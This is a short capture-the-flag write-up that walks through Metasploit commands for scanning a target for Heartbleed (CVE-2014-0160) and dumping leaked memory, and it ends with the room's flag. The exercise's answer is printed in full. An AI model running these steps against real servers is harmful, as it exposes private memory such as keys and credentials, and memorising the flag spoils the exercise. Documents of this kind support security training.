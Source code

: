 [Metasploit](https://www.metasploit.com/) can be used to detect and exploit Heartbleed (CVE-2014-0160) using the openssl_heartbleed auxiliary module.

Run msfconsole command and use scanner module.
```BASH
msfconsole
```

```BASH
use auxiliary/scanner/ssl/openssl_heartbleed
```

SET RHOSTS
```BASH
set RHOSTS VICTIM_IP_ADDRESS
```

SET RPORT
```BASH
set RPORT 443
```

Add verbose mode
```
set VERBOSE true
```

Use run command
```BASH
run
```

This will scan the target and dump leaked memory. You can inspect the results manually for any sensitive information.  

![image](https://github.com/user-attachments/assets/10bf4550-8a7f-495b-8ea0-7ed661e3b56a)
![image](https://github.com/user-attachments/assets/2543f5f5-9a21-47c1-825c-e953add49c76)

CTF flag
<pre>THM{sSl-Is-BaD}</pre>
